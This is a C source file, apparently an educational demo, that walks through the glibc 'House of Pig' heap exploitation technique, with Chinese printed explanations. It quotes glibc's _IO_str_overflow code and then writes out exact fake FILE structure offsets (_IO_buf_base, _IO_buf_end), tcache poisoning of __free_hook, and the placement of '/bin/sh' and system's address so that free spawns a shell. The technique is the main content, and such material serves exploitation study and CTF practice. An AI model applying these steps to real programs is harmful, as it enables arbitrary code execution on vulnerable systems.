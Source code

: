 ```c
                 "\t  new_buf = malloc (new_size);\n"
                 "\t  if (new_buf == NULL)\n"
                 "\t    {\n"
                 "\t      /*\t  __ferror(fp) = 1; */\n"
                 "\t      return EOF;\n"
                 "\t    }\n"
                 "\t  if (old_buf)\n"
                 "\t    {\n"
                 "\t      memcpy (new_buf, old_buf, old_blen);\n"
                 "\t      free (old_buf);\n"
                 "\t      /* Make sure _IO_setb won't try to delete _IO_buf_base. */\n"
                 "\t      fp->_IO_buf_base = NULL;\n"
                 "\t    }\n\033[1;" PURPLE "m"
                 "\t  memset (new_buf + old_blen, '\\0', new_size - old_blen);\n"
                 "\n"
                 "\t  _IO_setb (fp, new_buf, new_buf + new_size, 1);\n"
                 "\t  fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);\n"
                 "\t  fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);\n"
                 "\t  fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);\n"
                 "\t  fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);\n"
                 "\n"
                 "\t  fp->_IO_write_base = new_buf;\n"
                 "\t  fp->_IO_write_end = fp->_IO_buf_end;\n"
                 "\t}\n"
                 "    }\n"
                 "\n"
                 "  if (!flush_only)\n"
                 "    *fp->_IO_write_ptr++ = (unsigned char) c;\n"
                 "  if (fp->_IO_write_ptr > fp->_IO_read_end)\n"
                 "    fp->_IO_read_end = fp->_IO_write_ptr;\n"
                 "  if (flush_only)\n"
                 "    return 0;\n"
                 "  else\n"
                 "    return c;\n"
                 "}\n\n");

    printf_color(GREEN, UNDEFINED, "注意红色部分的代码，这里会连续调用malloc、memcpy、free函数。\n");
    printf_color(GREEN, UNDEFINED, "house of pig想要在这里大做文章。\n");
    printf_color(GREEN, UNDEFINED, "首先需要通过tcache stashing unlink attack或其他方法向tcache中插入__free_hook附近的地址。\n");
    printf_color(GREEN, UNDEFINED, "然后在运行到此时，首先通过malloc分配出来，然后memcpy将指定位置的内容复制到__free_hook。\n");
    printf_color(GREEN, UNDEFINED, "最后通过free函数执行__free_hook中的内容，这里将__free_hook修改为system函数地址。\n");
    printf_color(GREEN, UNDEFINED, "通过代码我们可以知道，memcpy是将_IO_buf_base（结构体内偏移0x38）地址处的内容复制到__free_hook。\n");
    printf_color(GREEN, UNDEFINED, "而这个复制的原地址是我们可控的，需要我们在伪造的FILE结构体中设置。\n");
    printf_color(GREEN, UNDEFINED, "这里我们设置这个地址的值为第一个chunk的地址+0x20。\n");
    printf_color(GREEN, UNDEFINED, "............\n");

    fake_FILE[0x38 / 8] = chunk_1 + 0x20;

    printf_color(GREEN, UNDEFINED, "设置完成。之后我们需要注意malloc函数申请的chunk大小，其申请的大小需要经过计算。\n");
    printf_color(GREEN, UNDEFINED, "计算方式是：(_IO_buf_end - _IO_buf_base) * 2 + 100。\n");
    printf_color(GREEN, UNDEFINED, "这要求我们正确设置_IO_buf_end的值。如果使用0x100的tcache进行攻击，则end-base=0x46。\n");
    printf_color(GREEN, UNDEFINED, "据此设置_IO_buf_end为第一个chunk的地址+0x20+0x46（结构体内偏移0x40）。\n");
    printf_color(GREEN, UNDEFINED, "............\n");

    fake_FILE[0x40 / 8] = chunk_1 + 0x20 + 0x46;

    printf_color(GREEN, UNDEFINED, "设置完成。最后注意free函数的参数是FILE结构体的起始地址，因此在第二个chunk+0x20处写入\"/bin/sh\\x00\"。\n");
    printf_color(GREEN, UNDEFINED, "另外在第二个chunk+0x30处写入system函数地址，memcpy函数能够将这里的地址复制到__free_hook。\n");
```